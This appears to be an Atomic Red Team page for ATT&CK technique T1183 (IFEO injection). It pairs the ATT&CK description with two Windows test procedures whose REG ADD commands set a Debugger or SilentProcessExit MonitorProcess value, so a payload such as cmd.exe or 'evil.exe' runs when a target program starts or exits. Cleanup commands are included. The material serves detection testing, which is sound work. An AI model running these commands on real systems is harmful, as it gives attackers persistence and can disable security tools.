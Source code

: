 # T1183 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)
<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:\Windows\System32\calc.exe|
| payload_binary | Binary To Execute | Path | C:\Windows\System32\cmd.exe|


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```


#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f
```

<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:\Windows\System32\notepad.exe|
| payload_binary | Binary To Execute | Path | C:\Windows\System32\cmd.exe|


#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```


#### Cleanup Commands:
```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f
```

<br/>
